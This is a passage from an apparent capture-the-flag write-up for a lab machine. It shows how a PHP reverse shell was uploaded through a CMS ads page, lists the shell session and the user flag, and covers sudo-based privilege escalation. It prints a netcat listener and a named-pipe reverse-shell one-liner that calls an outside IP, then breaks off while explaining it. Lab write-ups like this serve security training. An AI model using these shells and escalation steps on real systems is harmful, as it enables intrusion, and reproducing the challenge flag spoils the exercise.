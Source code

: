 Lets upload php-reverse-shell from ads tab and copy reverse-shell code into the code block and name it as "reverse".
Lets browse to /content/inc/ads/reversephp.php
```bash

 nc -lvnp 8888             
listening on [any] 8888 ...
connect to [10.17.6.214] from (UNKNOWN) [10.10.209.114] 44280
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 19:25:27 up  1:17,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home;ls
itguy
$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public$
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```
#### Privilege Escalation
Lets see what commands we can run as sudo.
```bash
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```
It seems like we can run perl on with sudo on a file backup.pl
Lets see what is in the file
```bash
$ cat backup.pl 
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
It seems like it runs a shell script copt.sh
Lets see it
```bash
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
rm /tmp/f -> removes file f
mkfifo /tmp/f -> creates a named pipe "f" for interprocess communication
cat /tmp/f | /bin/sh -i 2>&1 -> take output of /tmp/f as input for sh in interactive mode and redirect stderr to stdout